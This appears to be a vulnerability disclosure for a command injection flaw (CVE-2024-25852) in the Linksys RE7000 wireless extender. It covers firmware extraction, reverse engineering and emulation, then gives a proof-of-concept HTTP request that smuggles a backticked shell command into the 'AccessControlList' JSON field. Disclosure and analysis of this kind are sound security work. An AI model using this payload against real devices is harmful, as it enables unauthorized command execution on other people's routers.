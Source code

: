 # Linksys RE7000 command injection vulnerability

## Vulnerability introduction

Product Description:

RE7000 is a new dual-band AC1900 wireless extender with seamless roaming function launched by Linksys.

Firmware download:

[https://downloads.linksys.com/support/assets/firmware/RE7000v2_PROD_FW_v2.0.15_211230_1012.bin](https://downloads.linksys.com/support/assets/firmware/RE7000v2_PROD_FW_v2.0.15_211230_1012.bin)

Vulnerability description:

The RE7000 wireless extender has a command execution vulnerability in the "AccessControlList" parameter of the access control function point. An attacker can use the vulnerability to obtain device administrator rights.

Affected versions:

RE7000 v2.0.9, RE7000 v2.0.11, RE7000 v2.0.15

Distribute CVE numbers:

CVE-2024-25852

## Vulnerability analysis

Vulnerability trigger point:

![image](https://github.com/ZackSecurity/VulnerReport/assets/34084717/ffcc3707-8865-414f-aee8-23cf33ad7b6b)


Use the binwalk tool to extract the firmware file system:

binwalk -Me --run-as=root RE7000v2_PROD_FW_v2.0.15_211230_1012.bin

Use the grep tool to quickly find vulnerability parameters:

grep -rl AccessControlList | grep .so

![image](https://github.com/ZackSecurity/VulnerReport/assets/34084717/1380cebb-9b5c-4f03-8122-f0e09ea460e9)


Use the IDA reverse tool to open the libcbtjson.so file and press Alt+t to search for the "AccessControlList" keyword:

![image](https://github.com/ZackSecurity/VulnerReport/assets/34084717/55f42f44-4466-46b2-a3aa-571b05982cbb)


Enter the ".rodata:0003B60C" read-only data address and see various types of parameter names, which are used to control different functions:

![image](https://github.com/ZackSecurity/VulnerReport/assets/34084717/b7c295c3-543e-40fb-824d-9be0222046ab)


Enter the "set_accessControlList" function, obtain the incoming parameters a1 and a2 through the "set_value_nvram" function, format the a1 and a2 variables for output through the "fprintf" function, and finally substitute a2 into the "cbt_system" function to execute the system command.

![image](https://github.com/ZackSecurity/VulnerReport/assets/34084717/fedc2fd1-74b9-435b-8266-88457d3ad3a4)


## Vulnerability recurrence

Emulate or search network asset targets via qemu firmware:

![image](https://github.com/ZackSecurity/VulnerReport/assets/34084717/3515e637-bcc6-4022-8b80-eedad299ce1b)


Exploit POC:

```
PUT /goform/AccessControl HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
If-Modified-Since: Thu, 17 Sep 2020 11:24:58 GMT
If-None-Match: "14600429"
Content-Length: 81

{"AccessPolicy":"0","AccessControlList":"`ps>/etc_ro/lighttpd/RE7000_www/1.txt`"}
```

### Reappearance of v2.0.15 version

![image](https://github.com/ZackSecurity/VulnerReport/assets/34084717/e268a67b-dd92-458f-b5d0-fbb3ccb9aa58)


The BurpSuite tool sends the POC and executes the ps command to output to the 1.txt file:

![image](https://github.com/ZackSecurity/VulnerReport/assets/34084717/0eaf381f-7e9d-4436-aae2-b9a24689041a)


Access the 1.txt file to see that the attack was successful.

![image](https://github.com/ZackSecurity/VulnerReport/assets/34084717/0d8f162a-27ff-4156-a89a-de56f2a1e520)




